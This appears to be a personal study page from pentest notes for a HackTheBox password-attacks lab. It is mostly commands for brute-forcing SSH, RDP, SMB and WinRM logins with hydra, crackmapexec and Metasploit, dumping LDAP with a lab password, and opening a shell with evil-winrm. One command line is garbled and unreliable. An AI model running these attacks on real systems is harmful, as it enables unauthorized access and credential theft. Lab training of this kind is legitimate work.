 #auth 

https://academy.hackthebox.com/storage/resources/Password-Attacks.zip

[[Pentest/Enumeration/services/SMB]] [[LDAP]] [[mssql]]
##### SMB, LDAP, MSSQL, etc.
https://github.com/byt3bl33d3r/CrackMapExec

```shell
sudo apt-get -y install crackmapexec

crackmapexec winrm 10.129.42.197 -u user.list -p password.list
```

```shell
crackmapexec --verbose smb 10.129.42.197 -u "user" -p "password" --shares
```

#### [[Pentest/Enumeration/services/SMB|SMB]] enumeration
list shares
```bash
netexec smb 10.129.128.107  -u michael.wrightson -p Cicada$M6Corpb*@Lp#nZpsmbmap -H 10.129.128.107 --shares
```

#### LDAP
Dump everything (domains/users/etc)
```bash
ldapdomaindump -u 'cicada.htb\michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' 10.129.128.107 -o dump
```

#### Evil-WinRM
#shell [[bind shell]]
to log in and get the shell:
```
sudo gem install evil-winrm
evil-winrm -i 10.129.42.197 -u user -p password
```

[[hydra]]
```shell-session
hydra -L user.list -P password.list ssh://10.129.42.197
```

```shell-session
 hydra -L user.list -P password.list rdp://10.129.42.197
```

```shell-session
 hydra -L user.list -P password.list smb://10.129.42.197
```

##### SMB via metasploit
```shell
msfconsole -q
use auxiliary/scanner/smb/smb_login
set PASS_FILE password.list
set USER_FILE username.list
set RHOST STMIP
run
```
